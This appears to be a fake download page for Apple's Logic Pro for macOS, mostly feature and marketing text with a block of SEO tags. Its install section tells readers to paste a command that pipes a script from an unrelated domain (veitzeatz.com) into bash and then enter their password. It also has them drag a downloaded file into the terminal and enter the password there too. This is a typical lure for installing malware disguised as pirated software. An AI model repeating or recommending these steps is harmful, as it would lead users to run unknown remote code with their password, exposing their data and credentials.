 # 🎵 Logic Pro — Professional Music Production Studio for macOS

**Logic Pro** is Apple’s industry-standard digital audio workstation (DAW) for macOS, offering professional-grade tools for recording, editing, mixing, and mastering audio. Whether you're producing music, scoring for film, or editing podcasts, Logic Pro delivers powerful features and seamless macOS integration.

With a vast sound library, MIDI sequencing, software instruments, and support for Dolby Atmos, Logic Pro is the ultimate solution for musicians, composers, and audio engineers using Mac.

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## ✅ Download Logic Pro for macOS  
[![Download Logic Pro](https://img.shields.io/badge/Download-Logic_Pro-blueviolet)](https://logic-pro-mac-download.github.io/.github)

---

## 📦 What is Logic Pro?

Logic Pro is a full-featured music production suite developed by Apple for macOS users. It combines a professional mixing console, multitrack recording, software synthesizers, audio editing tools, and MIDI support in one cohesive and intuitive interface. Designed to take full advantage of Apple hardware, Logic Pro offers blazing-fast performance on Macs — especially those powered by Apple Silicon.

---

## ✨ Features

- 🎚️ **Multitrack Recording & Mixing** with powerful automation tools  
- 🎹 Huge library of software instruments, loops, and samples  
- 🥁 Drum Machine Designer and Live Loops for dynamic composition  
- 🔊 Dolby Atmos & Spatial Audio support for immersive sound  
- 🧠 Smart Tempo for flexible tempo management  
- 🖥️ Optimized for macOS Ventura and Apple Silicon (M1/M2/M3)  
- 🧩 Full MIDI sequencing and advanced notation editor  
- 🎛️ Support for AU plug-ins and third-party hardware integration  

---

## 💡 Why Use Logic Pro?

- 🎵 Industry-standard DAW trusted by professionals worldwide  
- 🧰 All-in-one solution: compose, record, edit, mix, and master  
- ⚡ Lightning-fast performance on modern Mac systems  
- 📱 Wireless control via Logic Remote on iPad or iPhone  
- 🧑‍🎤 Perfect for solo artists, studios, sound designers, and educators  

---

[![Download Logic Pro](https://img.shields.io/badge/Download-Logic_Pro-blueviolet)](https://logic-pro-mac-download.github.io/.github)

---

## 🖼️ Preview

![Logic Pro Screenshot 1](https://i.pcmag.com/imagery/reviews/00KRt5ZMUqaFDOATGEVUW4t-55..v1715532643.jpg)  
![Logic Pro Screenshot 2](https://dt7v1i9vyp3mf.cloudfront.net/styles/news_large/s3/imagelibrary/A/AppleLogic105_01-hLtOcjY0kB2TSFT30dII33WXL4f2TORL.jpg)

---

## 📌 Tags

apple logicpro, logic pro mac, logic pro x mac, logic pro for students, daw logic pro x,  
logic pro macbook, logic pro macbook air, logic pro on mac, mac with logic pro,  
macbook air and logic pro, macbook air with logic pro, macbook pro for logic,  
price logic pro x, logic for mac, logic pro x mac download, logic pro download for mac,  
macbook with logic pro x, macbook pro with logic pro x, logic pro app, logic pro 10.6 download,  
logic pro 10.8, logic macbook, macbook pro logic pro, logic pro x for sale,  
logic mac download, logic software mac, logic pro mac download
